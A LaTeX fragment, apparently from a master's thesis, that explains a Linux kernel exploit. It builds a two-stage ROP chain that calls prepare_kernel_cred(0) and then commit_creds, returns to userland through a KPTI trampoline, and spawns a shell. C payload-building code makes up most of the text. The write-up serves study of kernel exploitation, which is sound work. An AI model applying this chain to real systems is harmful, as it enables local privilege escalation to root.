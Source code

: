 \documentclass{masterthesis}
\begin{document}
\subsection{Calling \texttt{commit\_creds(prepare\_kernel\_cred(0))}}
Since the number of gadgets is limited, it was impossible to find a ROP chain calling \texttt{commit_creds(prepare_kernel_cred(0))}.
The only solution is to divide the chain into two parts:
\begin{itemize}
  \item call \texttt{prepare\_kernel\_cred(0)} function saving the return value in \texttt{RAX};
  \item call \texttt{commit\_creds()} function using the value we have in \texttt{RAX}.
\end{itemize}
This way we bypass a fairly difficult part of the ROP chain, move the value received from \texttt{prepare\_kernel\_cred(0)} from \texttt{RAX} to \texttt{RDI} and pass it to the \texttt{commit\_creds()} function.
\begin{lstlisting}
void stage_3(void){
    ...
    //As stage 1
    ...
    payload[off++] = pop_RDI_RBP_ret; // return address
    payload[off++] = 0; // RDI <- 0
    payload[off++] = 0; // dummy RBP
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    ...
}

void after_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    returned_creds_struct = tmp_store;
    printf("    --> returned_creds_struct: %lx\n", returned_creds_struct);
    stage_4();
}

void stage_4(void){
    ...
    //As stage 3
    ...
    payload[off++] = returned_creds_struct; // RDI <- returned_creds_struct
    payload[off++] = 0; // dummy RBP
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds(returned_creds_struct)");
    ssize_t w = write(global_fd, payload, sizeof(payload));
}
\end{lstlisting} 
\end{document}
